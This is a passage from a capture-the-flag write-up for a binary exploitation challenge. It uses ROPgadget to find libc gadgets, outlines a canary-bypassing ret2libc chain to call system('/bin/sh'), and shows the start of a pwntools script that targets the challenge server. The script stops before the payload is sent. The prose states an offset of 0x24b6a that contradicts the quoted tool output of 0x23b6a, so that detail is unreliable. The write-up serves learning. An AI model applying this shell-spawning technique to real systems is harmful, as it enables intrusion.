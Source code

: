 ```
$ ROPgadget --binary ./libc.so.6 | grep "pop rdi ; ret"
0x0000000000023b6a : pop rdi ; ret
0x00000000000f57ad : pop rdi ; retf
0x0000000000144ba9 : pop rdi ; retf 0xa
```

We can take the first one and ignore the rest. The output shows that at the offset `0x24b6a` from the libc base, is the gadget we are looking for. 

Next, we also need to find a `ret` instruction. 

```
$ ROPgadget --binary ./libc.so.6 | awk '{print $1 $2 $3}' | grep ret
0x0000000000022679:ret
```

So `ret` is at 0x22679. 

Now, we are ready to craft our payload that does the following: 

1. Send 4 "A"s and the canary to get to the return address on the stack 
2. Overwrite the return address on the stack with the `pop rdi` gadget 
3. Set the value of `rdi` to "/bin/sh"
4. Overwrite the return address again with with the address of system 


Let us see how this can be accomplished with a full fledged pwntools script

```py
from pwn import *
from icecream import ic
import tty

# Set up pwntools for the correct architecture
exe = "./lost"
libc = ELF("./libc.so.6")
context.binary = elf = ELF(exe)
context.log_level = "debug"
context.aslr = True

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote("lost-canary.chal.uiuc.tf", 1337, ssl=True )
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
    b* select_station+104
    c
'''.format(**locals())

# Useful macros
def sl(a): return r.sendline(a)
def s(a): return r.send(a)
def sa(a, b): return r.sendafter(a, b)
def sla(a, b): return r.sendlineafter(a, b)
def re(a): return r.recv(a)
def ru(a): return r.recvuntil(a)
def rl(): return r.recvline()
def i(): return r.interactive()
eof = chr(tty.CEOF)


r = start()

```